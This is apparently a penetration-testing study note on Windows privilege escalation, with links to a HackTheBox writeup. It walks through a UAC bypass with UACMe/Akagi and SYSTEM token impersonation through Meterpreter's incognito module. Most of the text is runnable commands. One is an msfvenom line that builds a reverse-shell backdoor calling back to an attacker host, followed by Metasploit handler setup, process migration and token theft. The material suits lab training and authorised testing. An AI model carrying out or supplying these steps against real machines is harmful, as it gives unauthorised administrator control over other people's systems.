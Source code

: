 
<h3>Windows Kernel Exploit</h3>

Windows Kernel is the kernel that comes pre-packaged with all versions of microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy

Look for windows boxes that has the kernel exploit vuln(**Devel**)

one of the basic command to escalate priv esc on a windows is ```getsystem```, this would go through a plethora of techniques, but it can also fail actually


>Check out the  Devel Box Writeup, it's more of kernel exploit stuff.

Link to Devel Writeup: https://github.com/BlackAnon22/BlackAnon22.github.io/blob/main/posts/hackthebox/devel.md




<h4>Bypassing UAC with UACMe</h4>

UAC(User Account Control), has been present in all of windows from windows vista to windows 11. 

This is to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrator group

UACMe is an open source tool that can be used to bypass Windows UAC by leveraging various techniques

You can get it [here](https://github.com/hfiref0x/UACME)

To search for a running process
```
pgrep explorer
```
To migrate to that process, this provides a 64 bit meterpreter session
```
migrate 2223
```
To check if the user has elevated privileges
```
getprivs
```
To check users
```
net user
```
To check if the users are in the local administrators group
```
net localgroup administrators
```

>The version of Akagi you'll use depends on the version of windows you are running

To run akagi

Create a backdoor.exe using msfvenom
```
msfvenom -f exe -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -o backdoor.exe
```
Then set up the multi handler on metasploit
```
use exploit/multi/handler
set LHOST
set LPORT
run
```

Now, on the previous meterpreter shell you got, create a TEMP directory and upload the 2 files
```
upload backdoor.exe
upload Akagi64.exe
```
Making use of key "23", which essentially takes advantage of package manager on windows
```
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```
Running this bypasses UAC, then backdoor.exe should be executed with admin privileges
`
You should get a metterpreter shell, checking the privileges again
```
getprivs
```
You'll see the user has elevated privileges
Listing out processes
```
ps
```
With this you can migrate to a process with "NT Authority\System"
```
migrate PID
```
With this you would get a meterpreter shell as "NT Authority System"


>For windows 10, you can use key 33. Check out the documentation of the tool to read more about it

>In order to elevate privileges by bypassing uac, you will need access to a user that is a member of the local administrators group




<h4>Access Token Impersonation</h4>

>SeAssignPrimaryToken: This allows  a user to impersonate tokens

>SeCreateToken: This allows a user to create an arbitrary token with administrative privileges

>SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges

Using the "Incognito Module", this is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens successfully after exploitation. We can use this to display a list of token we can impersonate


To migrate to a 64bit meterpreter after getting your meterpreter session, you can migrate to explorer
```
pgrep explorer
migrate 2222
```
if "SeImpersonatePrivilege" is present, you can load incognito module on your meterpreter
```
load incognito
```
To list tokens, (you should see delegation tokens and impersonation tokens)
```
list_tokens -u
```
To impersonate token
```
impersonate_token "name of the token"
```
to check if it worked
```
getuid
```
So you can check the tokens again
```
list_tokens -u
```
If there's one for "NT Authority System", you can go ahead and impersonate it
```
impersonate_token "name of the token"
```

>If there's ever a scenario where the delegation or impersonation token isn't available, then you can go ahead with the potato attack

